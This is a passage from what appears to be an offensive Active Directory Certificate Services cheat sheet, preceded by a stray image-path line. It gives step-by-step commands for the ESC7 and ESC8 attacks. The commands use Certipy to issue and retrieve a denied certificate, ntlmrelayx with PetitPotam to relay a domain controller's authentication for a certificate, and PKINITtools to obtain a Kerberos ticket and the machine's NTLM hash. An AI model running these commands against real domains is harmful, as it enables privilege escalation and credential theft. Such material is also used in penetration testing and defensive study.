 4. Having `Issue and Manage Certificates` permission enabled. Denied template can easily be issued back. Use [certipy](https://github.com/ly4k/Certipy) ca submodule with `-issue-request` flag with request ID.

```bash
certipy ca -u 'lowpriv@bionic.local' -p 'Password1234' -ca bionic-AD-CA -dc-ip 10.66.66.3 -target-ip 10.66.66.3 -issue-request 14
```

![Certificate issued](./src/images/esc7_issue_certificate.png)

5. Retrieve back the denied certificate request. Note that this steps will require the previously saved private key `<request-id>.key`.

```bash
certipy req -u 'lowpriv@bionic.local' -p 'Password1234' -ca bionic-AD-CA -target 10.66.66.3 -retrieve 14
```

![Retrieve the denied certificate request like a boss](./src/images/esc7_retrieve_certificate.png)

6. Proceed with [Pass the Certificate](#pass-the-certificate) attack.

### ESC8
This requires NTLMv2 relaying from target identity to the /certsrc/certfnsh.asp endpoint to request a certificate. Below are the steps to reproduce.  In case of successful coerce, relayed NetNTLM can be used to request a certificate as the account itself. 

1. Fire up `ntlmrelayx.py` to listen for incoming hash and relay it to target url
```bash
ntlmrelayx.py -t http://192.168.86.183/certsrv/certfnsh.asp -smb2support --adcs --template 'KerberosAuthentication'
```
2. Coerce authentication using [PetitPotam](https://github.com/topotam/PetitPotam). _Note that patched system doesnt allow unauthenticated coerce, then it would require a credential_
```bash
# unpatched DC
python3 PetitPotam.py 192.168.86.165 192.168.86.182

# patched DC
python3 PetitPotam.py -u 'peter' -p 'Welcome1234' -d 'range.net' 192.168.86.165 192.168.86.182
```
3. A base64 encoded ticket should be retrieved by now and save it in a file. Use gettgtpkinit.py to convert the pfx certificate to ccache format 
```bash
python3 gettgtpkinit.py range.net/dc01\$ -pfx-base64 $(cat /tmp/b64-cert.b64) -dc-ip 192.168.86.182 /tmp/out.ccache
```
4. Use getnthash.py to retrieve ntlm hash
```bash
python3 /opt/AD/PKINITtools/getnthash.py range.net/dc01\$ -key c5deec1a9ef6cbaf6da31cb46c1398fdc47c37630375896ee412f3462332503b -dc-ip 192.168.86.182
```